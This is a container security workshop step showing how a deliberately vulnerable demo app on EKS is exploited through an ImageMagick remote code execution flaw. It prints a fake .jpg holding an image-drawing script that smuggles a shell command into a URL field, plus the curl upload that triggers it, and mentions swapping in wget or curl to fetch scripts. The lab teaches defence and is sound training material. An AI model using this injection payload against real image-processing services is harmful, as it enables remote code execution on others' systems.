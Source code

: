 +++
title = "Step 4: Exploit a Container Vulnerability"
chapter = false
weight = 21
+++

## Exploit a Container Vulnerability

Putting an application into a container does not automatically make it secure. To demonstrate the risks of a vulnerable component introduced by our container base image, we will exploit a vulnerability in the ImageMagick package present in one of the pods of our running application on EKS.

## Check the application container's home directory

### Locate the pod ID
First we need the pod ID for the application:
```bash
kubectl get pod
```

```kubernetes
NAME                          READY   STATUS    RESTARTS   AGE
goof-77846d94dd-m9zgc         1/1     Running   0          83m
goof-image-555df7c7fb-446vz   1/1     Running   0          18s
goof-mongo-66f98d594c-l646p   1/1     Running   0          113m
```
Look for the pod name starting with `goof-image` and use it in the command below.

### List the current files in the container's home directory

Next we will get a file directory listing for the container running in that pod by executing the following command:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

You should see the file listing of the goof-image container's home directory as follows:
```bash
CODEOWNERS  README.md  node_modules	  package.json	server.js
Dockerfile  exploits   package-lock.json  public	uploads
```

## Exploit a remote code execution vulnerability

In your Cloud9 terminal run the following:
```bash
cat image-app/exploits/rce1.jpg
```

Even though that file has a `.jpg` extension in it's name, it is actually a script:

```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|touch "rce1)'
pop graphic-context
```
Take special notice to the `"|touch "rce1` part of the next-to-last line.

##TODO - Get the GOOF_IMAGE_LB

Now, run the following:
```bash
curl -F ‘twitter_picture=@rce1.jpg’ http://GOOF_IMAGE_LB:3112/upload/
```

All we see coming back is this:
```
Found. Redirecting to /public/result.html
```

But let's check the container's filesystem again:
```bash
kubectl exec -it [goof-image pod id] -- ls 
```

```bash
CODEOWNERS  README.md  node_modules	  package.json	rce1	   uploads
Dockerfile  exploits   package-lock.json  public	server.js
```
Now we see an additional `rce1` file has been created!

## The impact of this vulnerability
The creation of an empty file may not seem that severe but realize that any command availabile in that container could be used in place of the `touch` command used here.  This includes things like `wget`, `curl` and `apt-get`.  It would not be hard to craft an exploit that pulls a shell script from an internet site and runs whatever is in it, giving the hacker a beachhead in your cluster to operate from.

Continue to the next step to learn how to identify these, and other, vulnerabilities in your container images that are introduced by your container base image.

